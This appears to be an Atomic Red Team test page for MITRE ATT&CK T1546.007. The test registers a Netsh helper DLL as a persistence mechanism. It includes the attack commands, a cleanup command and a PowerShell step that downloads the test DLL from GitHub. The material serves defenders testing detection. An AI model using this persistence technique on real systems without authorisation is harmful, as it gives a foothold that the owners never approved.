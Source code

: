 # T1546.007 - Event Triggered Execution: Netsh Helper DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/007)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by Netsh Helper DLLs. Netsh.exe (also referred to as Netshell) is a command-line scripting utility used to interact with the network configuration of a system. It contains functionality to add helper DLLs for extending functionality of the utility.(Citation: TechNet Netsh) The paths to registered netsh.exe helper DLLs are entered into the Windows Registry at <code>HKLM\SOFTWARE\Microsoft\Netsh</code>.

Adversaries can use netsh.exe helper DLLs to trigger execution of arbitrary code in a persistent manner. This execution would take place anytime netsh.exe is executed, which could happen automatically, with another persistence technique, or if other software (ex: VPN) is present on the system that executes netsh.exe as part of its normal functionality.(Citation: Github Netsh Helper CS Beacon)(Citation: Demaske Netsh Persistence)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Netsh Helper DLL Registration](#atomic-test-1---netsh-helper-dll-registration)


<br/>

## Atomic Test #1 - Netsh Helper DLL Registration
You can register a "helper dll" with Netsh as a persistance mechanism. The code in the dll is executed every time netsh.exe is called.
The NetshHelper.dll provided with the atomic will simply launch notepad when netsh.exe is run.

[Blog](https://htmlpreview.github.io/?https://github.com/MatthewDemaske/blogbackup/blob/master/netshell.html)
[Sample DLL code](https://github.com/outflanknl/NetshHelperBeacon)

**Supported Platforms:** Windows


**auto_generated_guid:** 3244697d-5a3a-4dfc-941c-550f69f91a4d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| helper_file | Path to DLL | path | PathToAtomicsFolder&#92;T1546.007&#92;bin&#92;NetshHelper.dll|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
netsh.exe add helper #{helper_file}
taskkill /im notepad.exe /t /f > NUL 2>&1
```

#### Cleanup Commands:
```cmd
netsh.exe delete helper #{helper_file}
```



#### Dependencies:  Run with `powershell`!
##### Description: Helper DLL must exist on disk at specified location (#{helper_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{helper_file}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{helper_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.007/bin/NetshHelper.dll" -OutFile "#{helper_file}"
```




<br/>
